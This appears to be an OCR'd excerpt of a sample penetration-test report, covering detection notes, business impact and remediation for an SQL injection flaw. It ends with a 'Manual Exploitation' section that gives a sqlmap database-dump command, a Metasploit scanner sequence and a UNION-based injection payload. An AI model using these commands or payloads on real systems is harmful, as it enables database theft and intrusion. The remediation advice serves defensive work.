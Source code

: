 ```bash
                    - SQL injection may trigger WAF logs
                    - Web shell upload would appear in audit logs
                    - Kernel exploit may trigger IDS

Business Impact:    - Data breach (GDPR violation)
                    - Ransomware deployment possible
                    - Customer trust loss
                    - Regulatory fines ($10M-$50M)

[Remediation]

Priority: CRITICAL - Fix immediately

1. Code Fix:
   Use prepared statements (parameterized queries)

   ❌ BAD:
   query = "SELECT * FROM users WHERE id = " + userInput

   ✅ GOOD:
   query = "SELECT * FROM users WHERE id = ?"
   stmt = db.prepare(query)
   stmt.execute([userInput])

2. Defense in Depth:
   - Deploy Web Application Firewall (WAF)
   - Enable SQL error suppression
   - Implement input validation (whitelist)
   - Add rate limiting to API endpoints
   - Monitor for SQL injection patterns

3. System Hardening:
   - Update kernel (patch CVE-2022-0847)
   - Implement least privilege (don't run as root)
   - Enable SELinux/AppArmor
   - Regular security updates

[Manual Exploitation]

If you want to exploit this manually:

SQLmap command:
  sqlmap -u "https://example.com/api/search?q=*" \\
         --batch --level=5 --risk=3 \\
         --dump -D database_name -T users

Metasploit module:
  use auxiliary/scanner/http/sqli_scanner
  set RHOSTS example.com
  set TARGETURI /api/search
  run

Manual payload:
  ' UNION SELECT 1,2,3,user(),database(),version()--

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```
